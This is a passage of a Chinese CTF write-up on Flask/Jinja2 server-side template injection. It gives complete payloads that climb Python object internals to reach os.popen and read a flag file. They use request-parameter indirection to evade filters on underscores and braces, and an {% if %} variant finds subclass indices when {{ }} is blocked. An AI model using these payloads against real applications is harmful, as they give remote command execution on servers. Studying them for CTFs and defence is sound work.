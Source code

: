 完整的利用就是

```none
{{(((request|attr(request.args.f|format(request.args.a))|attr(request.args.f|format(request.args.b))|list).pop(-1)|attr(request.args.f|format(request.args.c))()).pop(118)|attr(request.args.f|format(request.args.d))|attr(request.args.f|format(request.args.e))).get('popen')('cat%20Th1s_is_F1114g').read()}}&f=%s&a=__class__&b=__mro__&c=__subclasses__&d=__init__&e=__globals__
```

![image-20200423162231707](assets/20200424150532.png)

再如果觉得其他参数中这种形式会被禁用，也可以更多参数分化执行。`request.args`也可以改为`request.values`。

```none
{{(((request|attr(request.args.f|format(request.args.h,request.args.h,request.args.a,request.args.h,request.args.h))|attr(request.args.f|format(request.args.h,request.args.h,request.args.b,request.args.h,request.args.h))|list).pop(-1)|attr(request.args.f|format(request.args.h,request.args.h,request.args.c,request.args.h,request.args.h))()).pop(118)|attr(request.args.f|format(request.args.h,request.args.h,request.args.d,request.args.h,request.args.h))|attr(request.args.f|format(request.args.h,request.args.h,request.args.e,request.args.h,request.args.h))).get('popen')('cat%20Th1s_is_F1114g').read()}}&f=%s%s%s%s%s&h=_&a=class&b=mro&c=subclasses&d=init&e=globals 
```

![image-20200423163319930](assets/20200424150534.png)

#### flask 魔改

如果禁用`{{ }}`这种符号，同时保持上面符号的禁用。默认的Jinja分隔符配置如下：

```none
{% ... %}用于声明{{ ... }}用于将表达式打印到模板输出{# ... #}用于注释不包括在模板输出#  ... ##用于行语句
```

使用if的逻辑语句，由于不能直接用表达式打印，所以用以下布尔判断，循环pop中的值，得到334

```none
{%%20if%20((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(334)|string=="<class%20'os._wrap_close'>"%20%}111{%%20endif%20%}
```
